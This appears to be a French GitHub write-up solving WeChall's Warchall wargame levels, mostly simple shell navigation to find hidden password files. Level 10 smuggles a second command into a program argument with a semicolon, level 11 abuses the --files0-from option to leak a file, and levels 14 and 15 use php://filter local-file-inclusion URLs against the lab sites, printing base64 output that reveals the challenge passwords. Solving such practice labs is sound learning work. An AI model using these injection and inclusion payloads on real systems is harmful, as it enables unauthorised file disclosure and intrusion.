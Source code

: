 # WeChall
> logging into ssh to accees the warchall box

# [ level 0 ] 
- `cd /home/level/00_Welcome` : se diriger vers le dossier du niveau 0 .
- `ls` :regarder la liste des fichiers dans le dossier dans le dossier `00_Welcome`.
- `cat README.txt` : afficher le contenu du fichier `README.txt` .
- le mot de passe se trouve dans le fichier `README.txt`. 

# [ level 1 ]
 - `cd /home//level/01_choice_tree` : se diriger vers le dossier du niveau 1 .
 - `cd /blue/hats/grey/solution/patience` : apres avoir ete rediriger vers le dossier `patience`. 
 - `cat SOLUTION.txt` : le mot de passe se trouve dans ce fichier .

# [ level 2 ] 
 - `cd /home/level/02` : se diriger vers le dossier du niveau 2 .
 - `ls -al` : voir la liste des elements du dossier `02` , fichier cacher inclus.
 - `cd .porb` : on y trouve un dossier cacher `.porb` puis on va dans le dossier .
 - `ls -al` : voir de nouveau tous les elements du dossier `.porb` puis on a un fichier `.solution` .
 - `cat .solution` : le mot de passe se trouve dans ce fichier .

# [ level 3 ] 
 - `cd /home/level/03` :  se diriger vers le dossier du niveau 3 .
 - `ls -al` : voir la liste de tout les elements du dossier `03` .
 - `cat .bash_history` : le mot de passe se trouve sur la premiere ligne .

# [ level 4 ] 
 - `cd /home/level/04_kwisatz` : se diriger vers le dossier du niveau 4 .
 - `ls -al` : voir la liste de tout les elements du dossier `04_kwisatz`.
 - `cat README.nfo` : puis on nous demande de nous rediriger vers le repertoire principale .
 - `ls` : voir les elements du repertoire .
 - `cd level` : puis `ls` pourr voir le dossier `04_kwisatz`.
 - `cd 04_kwisatz` : puis `ls` pour voir les 02 fichiers `README2.md` et README.txt`.
 - `chmod 755 README2.md` puis `cat README2.md` : changer la permission puis afficher le contenu .
 - le mot de passe se trouve dans ce fichier `README2.md`.  

# [ level 5 ] 
 - `cd /home/level/05_privacyz` : se diriger vers le dossier du niveau 5 .
 - `cat README.md` : on affiche juste ce fichier et on trouve le mot de passe . 


# [ level 10 ]
## Dans ce challenge , on doit mettre le programme c compiler en échéance pour pouvoir récupérer le mot de passe .  
- `cd /home/level/10_choose_your_path` : se diriger vers le dossier du niveau 10 .
- `ls` : voir les elements du dossiers level10 .
- `./charp "nomRandom ; cat solution.txt > /home/user/randy/fichier.txt`: nomRandom devient un argument de ***charp2*** et  ***cat solution.txt > fichier.txt*** le deuxieme argument .
- On a pu realiser la condition pour faire echouer le programme ***c*** et le contenu de solution.txt est copier vers ***fichier.txt*** dans notre repertoire personnel  .
- `cat fichier.txt`: notre mot de passe se trouvera dans ce fichier .
  

# [ level 11 ]
## Ce challenge est une version plus difficile du niveau 10 mais les instructions pour obtenir le mot de passe reste le même .
- `cd /home/level/10_choose_your_path2` : se diriger vers le dossier du niveau 11 .
- `./charp2 '--files0-from=solution.txt'`: ***"--file0-from=fichier"*** : Cette option est generalement  utilisée pour lire les noms de fichiers dans une liste de fichier , mais dans notre cas, ***solution.txt*** n'est pas une liste mais un fichier , `charp2` interprete cet commande comme son argument et lis le contenu de ***solution.txt*** comme une liste de fichier , cependant ***solution.txt*** ne contient aucun nom de fichier valide , ce  qui met le programme en echeance , et qui affiche le mot de passe du challenge .
- ***NB : cette solution peut aussi être utiliser dans le niveau 10***  


# [ level 12 ] 
## dans ce Challenge , 
- `cd /home/level//12_pytong` : se diriger vers le dossier du niveau 12 .
- `nano /home/user/randy/script : `  créer un script exécutable qui envoie des caracteres infini vers un dossier  que l'on va creer .
- `script` :
                     <pre>while true; do 
                             echo "blablabla"  >> changedfile </pre>
- `touch changedfile` : creation du fichier qui recevera le contenu du script
- `./script` : executer le script .
- Ouvrir une nouvelle fenetre putty sans fermer la session precedente pour executer le code python .
- Executer `script` script sur une fenetre et executer `pytong` sur une autre comme ceci : 
- `cd/home/level/12_pytong` et `./level12 /home/user/randy/changedfile` : executer le level12 dans le fichier qui change de contenu et le mot de passe s'affiche .

# [ level 14 ]
- Cliquez sur le lien du challenge  **Live LFI** puis elle vous redirigera vers un site .
- Cliquez sur l'un des deux drapeaux : le drapeau **anglais** ou le drapeau **allemand** pour changer la langue et l' URL changera comme ceci :
  <pre>https://lfi.warchall.net/index.php?lang=en</pre>
- Puis on change comme ci-dessous l'URL :
  <pre>https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php</pre>
- Puis on actualise et le contenu change et cela s'affiche :
  ```plaintext

  PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K


- Il s'agit du contenu de `solution.php` mais il faut encore le decoder
- Nous allons ensuite ouvrir notre putty et decoder ce long texte dans un repertoire dont nous avons des droits 755 .
- Nous allons ensuite executer la commande suivante :
- `echo " `
 ```
- PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K"
```

- `" | base64 -d -i`
- Et le mot de passe va ensuite s'affichera .


# [ level 15 ] 
- Nous allons cliquer sur le lien du challenge ***Right-Fi***
- Cliquez sur **EN** ou **DE** en haut a droite et l'URL changera comme tels :
  ```
  https://rfi.warchall.net/index.php?lang=en
- Rajoutons des éléments sur l'url comme ci-dessous :
  ```
  https://rfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php

 - La page d'acceuil s'affichera mais il y a un long message et des messages de ***Warning*** qui sont ajoutées .
 - Nous allons ensuite copier le texte incomprehensible et le decoder avec les commandes suivantes :
 - `echo " ` :
   ```
   PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K

 - `" | base64 -d -i ` : et le mot de passe s'affichera ensuite tout en bas a gauche  .


